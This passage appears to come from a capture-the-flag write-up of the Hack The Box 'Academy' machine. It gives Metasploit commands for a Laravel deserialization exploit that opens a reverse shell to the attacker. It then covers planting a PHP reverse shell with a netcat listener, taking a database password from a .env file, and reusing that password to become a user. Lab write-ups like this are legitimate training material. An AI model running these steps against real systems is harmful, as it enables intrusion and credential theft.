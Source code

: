 {% highlight sh %}
msf6 exploit(unix/http/laravel_token_unserialize_exec) > set APP_KEY dBLUaMuZz7Iq06XtL/Xnz/90Ejq+DEEynggqubHWFj0=
APP_KEY => dBLUaMuZz7Iq06XtL/Xnz/90Ejq+DEEynggqubHWFj0=
msf6 exploit(unix/http/laravel_token_unserialize_exec) > set rhosts 10.10.10.215
rhosts => 10.10.10.215
msf6 exploit(unix/http/laravel_token_unserialize_exec) > set vhost dev-staging-01.academy.htb
vhost => dev-staging-01.academy.htb
msf6 exploit(unix/http/laravel_token_unserialize_exec) > set lhost tun0
lhost => 10.10.14.7
{% endhighlight %}

{% highlight sh %}
msf6 exploit(unix/http/laravel_token_unserialize_exec) > run
{% endhighlight %}

And we got a shell !

{% highlight sh %}
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
{% endhighlight %}


## User (cry0l1t3)

The shell that we got is very limited so I want to upgrade to a better one. What I did is uploading my reverse php shell on the main website. This way I can connect more easily and have a better shell. 

I copied my php file in the `/var/www/html/academy/public` folder.
Then I set up a `netcat` listener and browse to my reverse shell. 

Now that I got a better shell, I can start to enumerate the box. When we were on the `dev-staging-01` error page, we got access to the `.env` file of the subdomain website. Now that we got inside the box, we should check the `.env` file of the main website because Laravel stores a lot of valuable informations there. 

So, inside of `/var/www/html/academy/public/.env` website, I found a password:

>mySup3rP4s5w0rd!!

It's a password for the database but as some people say, 'Human are beasts of habbits' so I tried the password with every username that I found inside the `/etc/passwd` file and voila, we got our first user !

{% highlight sh %}
id
uid=1002(cry0l1t3) gid=1002(cry0l1t3) groups=1002(cry0l1t3),4(adm)
{% endhighlight %}


## User (mrb3n)

The user `cry0l1t3` is part of `adm` group, which means that we have access to pretty much all the log files. 
